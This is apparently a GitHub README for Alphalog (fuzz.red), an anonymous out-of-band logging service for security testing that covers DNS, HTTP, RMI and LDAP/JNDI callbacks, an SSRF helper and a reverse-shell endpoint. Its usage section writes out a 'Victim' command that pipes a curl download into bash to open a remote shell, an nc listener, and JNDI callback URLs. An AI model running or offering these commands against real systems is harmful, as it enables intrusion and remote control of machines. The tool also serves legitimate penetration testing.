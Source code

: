<img src="fuzz.red.jpg">

# Alphalog

DNSLog、httplog、rmilog、ldaplog、jndi 等都支持,完全匿名 产品(fuzz.red)，Alphalog与传统DNSLog不同，更快、更安全。


```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.16.01      \______/
```

# Welcome to Fuzz.Red #

![image](https://user-images.githubusercontent.com/27001865/150348452-38595c7d-8f16-4564-a1c7-9a02ed9b57a9.png)

## Usage

1. Get token(`key`) and randomly named subdomain (Expires: 1 Day)

	```bash
	$ curl fuzz.red/get
	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}
	```

2. Get logs

	```bash
	$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
	{"code":200,"data":[]}
	```

### DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

### HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"code": 200,
"data": [
	{...}]
}
```

### SSRF

```bash
$ curl -L fuzz.red/ssrf/www.baidu.com/
<!DOCTYPE html>...(www.baidu.com page)...</html>
```


### 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Victim

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
# or 
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
$ nc -lvvp 1234
listening on [any] 1234 ...
connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

### RMI or LDAP 
PATH规则为“sub/text”,sub为子域名的主机头，text为自定义特征
例如：子域名=oz4e.fuzz.red，text=Alphabug
=> oz4e/Alphabug

```bash
rmi://jndi.fuzz.red:5/oz4e/Alphabug
# or
ldap://jndi.fuzz.red:5/oz4e/Alphabug
```
获取log
```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool

{
	"code": 200,
	"data": [
		{
			"ip": "1.2.3.4:41584",
			"reqbody": "Alphabug",
			"subdomain": "oz4e.fuzz.red.",
			"time": "2022-01-16 03:40:03 -0500 EST",
			"type": "ldap"
		}
	]
}
```
## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。
- 2022年01月16日 16:45:12 添加RMI、LDAP log功能，引用https://github.com/EmYiQing/JNDIScan核心模块，实现log查询。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)

## www.fuzz.red 效果
![www fuzz red_(iPhone X)](https://user-images.githubusercontent.com/27001865/149708515-c1dcf244-babe-4948-9418-3760c697010c.png)

![image](https://user-images.githubusercontent.com/27001865/149654871-c93be50f-5e42-4c6a-b1d2-447870285cb5.png)


## 实时反馈群 

### QQ反馈群


QQ群：727871590

![$XVJBS5Q 5QNTDURQ(AKGU6](https://user-images.githubusercontent.com/27001865/159666679-102374da-b9f9-4324-8485-89f8bbbd7e2b.jpg)
 
 
